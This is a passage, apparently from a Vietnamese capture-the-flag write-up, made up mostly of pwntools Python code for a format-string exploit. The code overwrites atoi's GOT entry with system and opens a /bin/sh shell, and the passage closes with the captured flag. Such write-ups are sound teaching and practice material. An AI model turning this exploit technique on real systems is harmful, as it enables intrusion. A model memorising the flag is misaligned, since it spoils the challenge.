 ```python
    (system >> 0 ) & 0xFFFF : exe.got["atoi"],
    (system >> 16) & 0xFFFF : exe.got["atoi"] + 2, 
    (system >> 32) & 0xFFFF : exe.got["atoi"] + 4 
}
sorted_package = sorted(package) 

payload =  f"%{sorted_package[0]}c%12$hn".encode() 
payload += f"%{sorted_package[1] - sorted_package[0]}c%13$hn".encode() 
payload += f"%{sorted_package[2] - sorted_package[1]}c%14$hn".encode() 
payload = payload.ljust(0x30, b"P") 
payload += flat(
    package[sorted_package[0]],
    package[sorted_package[1]],
    package[sorted_package[2]]
)

sl(b"-") 
sla(b"name: ", payload) 

sl(b"1")
sla(b"guess: ", b"/bin/sh")

p.interactive() 
```
Flag thu được là `ISITDTU{a0e1948f76e189794b7377d8e3b585bfa99d7ed0de7e6a6ff01c2fd95bdf3f72}`. 























